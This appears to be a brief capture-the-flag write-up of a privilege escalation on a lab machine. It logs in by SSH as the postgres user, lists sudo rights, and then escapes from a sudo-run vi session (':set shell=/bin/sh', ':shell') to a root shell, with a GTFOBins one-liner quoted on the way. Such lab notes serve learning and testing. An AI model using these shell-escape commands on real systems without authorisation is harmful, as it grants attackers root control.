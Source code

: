 Connect through ssh with postgres user
```bash
$ ssh postgres@10.129.181.9
```

Enumerate programs that can be executed with sudo
```bash
$ sudo -l
```

Go to [gtfobins](https://gtfobins.github.io/gtfobins/vi/#sudo) to search if we can abuse vi.
```ad-info
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.  

sudo vi -c ':!/bin/sh' /dev/null
```
![[Assets/Pasted image 20220612124132.png]]
But this DOES NOT work so lets execute the other command that can be run using sudo
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

1. Insert the comand `:set shell=/bin/sh`
2. Execute `:shell` 

Now we are root. The root flag is in /root.